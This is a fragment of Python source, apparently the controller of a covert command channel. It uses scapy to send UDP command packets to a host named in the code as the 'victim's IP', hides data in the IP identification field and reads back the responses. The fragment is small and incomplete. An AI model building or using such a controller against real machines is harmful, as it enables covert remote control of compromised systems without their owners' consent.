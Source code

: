 ```

        curr_message = get_message()
        if not curr_message:
            break


        # Send message using scapy
        # Make sure the IP identification field is little endian of the port.
        sr1(
            IP(dst=ip_addr, id=ID)/
            UDP(sport=SERVER_PORT,dport=1234)/
            Raw(load=curr_message),
            verbose=0
        )

        command = curr_message[:3]
        if command not in all_commands:
            continue
        should_loop = command in multi_packets
        get_response(sock, should_loop)

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description="victim's IP")
    parser.add_argument('ip')
    args = parser.parse_args()
    main(args.ip)
```
